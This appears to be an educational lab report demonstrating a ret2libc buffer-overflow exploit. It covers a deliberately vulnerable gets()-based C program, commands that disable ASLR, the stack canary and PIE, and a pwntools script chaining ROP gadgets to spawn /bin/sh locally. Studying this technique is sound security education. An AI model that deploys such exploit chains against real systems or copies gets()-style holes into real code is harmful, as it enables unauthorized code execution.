







# Ret2libc Exploitation Technique on Kali Linux via Buffer Overflow in a vulnerable C program


## Introduction

In this report, we are going to analyze the return to libc attack technique, which we saw as a code reuse circumvention idea to the W^X mitigation technique.
This exploitation allows an attacker that identified potentially useful functions and data in the standard C libc library, to execute arbitrary functions overwriting the return address on the stack.
Our demonstration is going to be done by using a virtual machine running Kali Linux x86_64 and a precisely crafted C program, which uses the now deprecated gets() function to cause a stack overflow. The objective is to obtain an interactive shell (/bin/sh) abusing only code present in the running process, without any code injection.
We are going to be executing the attack in ideal conditions for an attacker, all mitigations, such as ASLR, stack canary and PIE are going to be disabled. We will then observe how the "normal" scenario with all the mitigations active prevent the attack, unless a proper exploit is developed.

## Environment & Setup

The exploit was developed and tested using the following:

- **Operating System**: Kali GNU/Linux, version 2026.1
- **Architecture**: x86_64
- **OS configuration**: ASLR mitigation disabled via
```
  echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
- **Compiler**: `gcc` with the following security mitigations disabled:
  - `-fno-stack-protector` — disables stack canary
  - `-z execstack` — marks the stack as executable
  - `-no-pie` — disables Position Independent Executable

## Utilized Tools

- **GDB + pwndbg** — used for debugging and memory analysis
  ([github.com/pwndbg/pwndbg](https://github.com/pwndbg/pwndbg))
- **pwntools** — A python library for exploit development
  ([docs.pwntools.com](https://docs.pwntools.com/))
- **ROPgadget** — used to search for ROP gadgets in binaries
  ([github.com/JonathanSalwan/ROPgadget](https://github.com/JonathanSalwan/ROPgadget))
- **checksec** — used to inspect binary security mitigations

## Memory unsafe C program

The target of our exploit is a small C program which was pupusefully designed to cause stack-based buffer overflow. The vulnerability lies in the use of `gets()`, a depreciated unsafe function which unlike its "safer" alternatives (`fgets`, `read`), that can still be overflowed, `gets()` accepts input until a newline or EOF is encountered not limiting the number of characters read, which can lead to buffer overflows.

If we give this function more bytes than the buffer can store, the extra bytes spill into the stack and overwrite the saved return address — the value the CPU uses to know where to jump when the function ends. If we control that address, we control where the program goes.

## Exploit

We remind that we are going to disable all mitigations for the purpouse of this exploit. We are going to see how if ASLR is enabled this wouldn't work due to the randomization of the address space. If that was the case we would either need a shellcode that obtains the address of a variable whose relative address to shellcode is know, or try and brute-force segment locations.

```
#!/usr/bin/env python3
from pwn import *

system_addr = address of the system function in libc
binsh_addr  = address of the /bin/sh string in libc
pop_rdi     = address of the gadgets in libc
ret         = address of the gadget composed only by the ret instruction

offset = 88

payload  = b"A" * offset
payload += p64(ret)              
payload += p64(pop_rdi)
payload += p64(binsh_addr)
payload += p64(system_addr)

p = process('./vuln')
p.sendline(payload)
p.interactive()
```
We are going to utilize this simple python script to spawn an interactive shell.
- ``` from pwn import * ``` imports all the functions of the pwntool library.
- ``` system_addr , /bin/sh , pop_rdi, ret ``` are variable assignments where every line is going to be filled with the corresponding address
- ``` offset``` is the number of bytes to write before reaching the saved RIP on the stack 
- ```payload``` — the bytes we send to the program. They are arranged in a specific order so that, after the buffer overflow, the program ends up calling `system("/bin/sh")` and gives us a shell. The first part of the payload is padding to fill the buffer, while the rest is a chain of addresses that tells the CPU what to do step by step, reusing pieces of code already present in libc.
- ```p = process('./vuln')``` starts the binary as a subproces of the python script
- ```p.sendline(payload)``` sends the payload to the stdio of the process
- ```p.interactive()``` opens a an interactive channel between the terminal and process
  
## C Program

Since in this demo we are acting as both attacker and defender, we first need a target. The following is the vulnerable C program that uses `gets()` to expose a stack buffer overflow. The use of `gets()` is intentional: this function does not check whether the input fits within the bounds of the destination buffer, allowing us to write into memory regions of our choice.
```
#include <stdio.h>

extern char *gets(char *s); //required or else it would result in implicit function declaration error

void read_message() {
    char buffer[80];
    printf("Enter message: ");
    gets(buffer);
    printf("Message received: %s\n", buffer);
}

int main() {
    read_message();
    return 0;
}
```

## Executing the exploit

### 1) Cheking the default ASLR setting

By default the output should be 2, we are going to be disabling it.

```bash
cat /proc/sys/kernel/randomize_va_space
```


### 2) Creating the directory and vulnerable file

We are going to be placing our vulnerable code in the vuln.c file

```bash
mkdir ~/ret2libc
cd ~/ret2libc
nano vuln.c
```

### 3) Disabling ASLR & Compiling the binary with compiler mitigations disabled

In order to disable ASLR the users password is requested, if the output is 0 ASLR is disabled

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

```bash
gcc -fno-stack-protector -z execstack -no-pie -g vuln.c -o vuln
```
- ```-fno-stack-protector``` disables stack canary
- ```-z execstack ``` executable stack
- ```-no-pie``` fixes the binary base address

### 4) Check if mitigations are disabled



### 5) Launch GDB

We are going to launch the gdb debugger to analyze the vulnerable C program

```bash
gdb ./vuln
```
The program is constructed by a main function and a read_message, the disassemble command in gdb translates the machine code of a compiled function back into human-readable assembly instructions, allowing us to inspect what the program actually does at the CPU level. 

```disassemble main``` ```disassemble read_message```



The main function simply calls read_message. Inside read_message, we can see the call to ```gets()```, which is the source of the vulnerability.

### 6) Offset

We need to calculate the "offset" which means how many bytes of input we need to write before the data starts overwriting the saved RIP (register instruction pointer). We will do so by using the cyclic command installed with pwndbg. The cyclic command generates a non-repeating pattern in which every small segment is unique. When this pattern is supplied as input, it overflows the buffer and causes the program to crash, leaving a few of those unique characters in a register such as $rsp. Because each segment appears only once, you can take the characters found there and run cyclic -l <bytes>, which identifies the exact position they originated from. That position tells you how many bytes are required before reaching the saved return address.



### 7) Addresses of system, /bin/sh and base address of libc

While in gdb we can execute ```p system```, ```search -t string "/bin/sh"``` to find the addresses of system function and the string /bin/sh which we'll need since system is code we want to jump to. While /bin/sh is the data you pass to it as the argument. The base address of libc ( that we'll use to calculate full address for the gadgets) can be found by using the command ```vmmap libc```.



### 8) Finding the ROPgadgets

We need to calculate the ROPgadgets since pop rdi; ret puts the /bin/sh address into position so system knows what to run, and the gadget with only ret  aligns the stack so that system doesn't crash. We'll use the following commands: 
- ```ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi ; ret"```
- ```ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "ret"```



We'll then need to find the absolute adress for the gadgets buy using gdb once again and using ```p/x libc base address + gadget 1&2 address```

### 9) Completing the Exploit

Now that we have found all the addresses, since we have ASLR disabled, they wont change and we can substitute them in our python exploit.

### 10) Running the exploit

To run the exploit we'll need to run the following command: ```python3 exploit.py```. If everything is done right we should spawn an interactive shell with the vulnerable process privileges.



## Conclusion

In this demo we exploited a buffer overflow in a simple C program through the ret2libc technique to obtain an interactive shell, without the need to inject any executable code. The attack worked only because we disabled the mitigations that are applied by default: ASLR at the kernel level, the stack canary via -fno-stack-protector, and PIE via -no-pie.

Once these protections are restored, the same exploit fails. The canary detects the stack corruption before the ret instruction is reached, and even if it were bypassed, ASLR would invalidate every hardcoded address in the script.Although no mitigation is unbeatable, their combination makes this kind of attack impractical against a modern hardened system. A professionally constructed exploit would need to be able to bypass different mitigations at the same time, hence it's difficlty.

## Sources

- Youtube reference : https://www.youtube.com/watch?v=0CFWHjc4B-I&t=274s
- Youtube reference : https://www.youtube.com/watch?v=Dq8l1_-QgAc&t=20s
- Claude.ai
- ROPgadgets : https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/rop-chaining-return-oriented-programming
- Pwntools doc : https://docs.pwntools.com/en/stable/intro.html
- ret2libc — Binary Exploitation (CTF 101) https://ctf101.org/binary-exploitation/return-oriented-programming/
- Chatgpt
- pwnDBG documentation: https://pwndbg.re/stable/commands/misc/cyclic/
- Youtube reference : https://www.youtube.com/watch?v=87LOnpCOMJk


